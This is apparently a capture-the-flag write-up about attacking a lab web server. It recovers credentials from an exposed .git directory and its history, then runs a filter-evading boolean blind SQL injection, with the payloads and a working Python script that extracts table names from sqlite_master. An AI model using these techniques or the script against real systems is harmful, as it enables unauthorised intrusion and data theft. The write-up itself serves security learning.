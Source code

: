 I Got a 403 Forbidden when i tried it, but that doesn't mean game over.
i just started dirsearch with recursive option to try to get files under `/.git/` maybe they just block the directory listing but not the actual files inside. So I tried `/.git/config` and `/.git/HEAD` and fles started downloading!

Fired up git-dumper with `git-dumper http://34.18.12.84:8086/.git/ repo` and pulled down all the files. 

 Looking at git history to see what secrets developers accidentally committed. Did a `git log` and found the commits, but one stood out: "Delete Secrets!" - yeah, that's not suspicious at all lol.

Checked out the commit right before that one with `git checkout 0a6893d` and found a file called `.config.php.swp` sitting there with some juicy credentials. Classic case of deleting secrets from the current version but forgetting they're still in git history.

Used those creds on the login page and suddenly I'm in the admin panel. There's this "Check User (Test)" functionality that lets you check if a user is active or not. 
Started testing the user check function SQL injection but they had filters blocking symbols like `;`, backticks, `>`, `<`, `\=`, and `$`. Pretty comprehensive filtering actually.
But then I tried `admin' AND LENGTH(username) BETWEEN 5 AND 10 --` and got "User is active" - that's a true response! 
Tried `admin' AND LENGTH(username) BETWEEN 1 AND 2 --` and got "User not found" - false response. Bingo, we've got blind SQL injection working even with the symbol filtering.

The three possible responses were:

- "User is active" (true)
- "User not found" (false)
- "error in query" (malformed SQL)

Perfect setup for boolean-based blind SQL injection. Time to write some scripts and extract everything character by character.

First script was for dumping table names from `sqlite_master`:

```python
import requests

url = "http://34.18.12.84:8086/admin.php?action=check"
cookies = {"PHPSESSID": "d72b2109670db5942d4eea110b92bd35"}

def is_char(c, offset):
    payload = f"""admin' AND HEX(SUBSTR((SELECT name FROM sqlite_master WHERE type GLOB 'table' LIMIT 1 OFFSET {offset}), {c[0]}, 1)) BETWEEN '{c[1]:02x}' AND '{c[1]:02x}' --"""
    data = {"action": "status", "username": payload}
    r = requests.post(url, data=data, cookies=cookies)
    return "User is active" in r.text

def extract_table_name(offset):
    table = ""
    for pos in range(1, 100):
        found = False
        for char in range(32, 127):
            if is_char((pos, char), offset):
                table += chr(char)
                print(f"[{offset}] {table}")
                found = True
                break
        if not found:
            break
    return table

for offset in range(5): 
    name = extract_table_name(offset)
    if name:
        print(f"Found table [{offset}]: {name}")
```
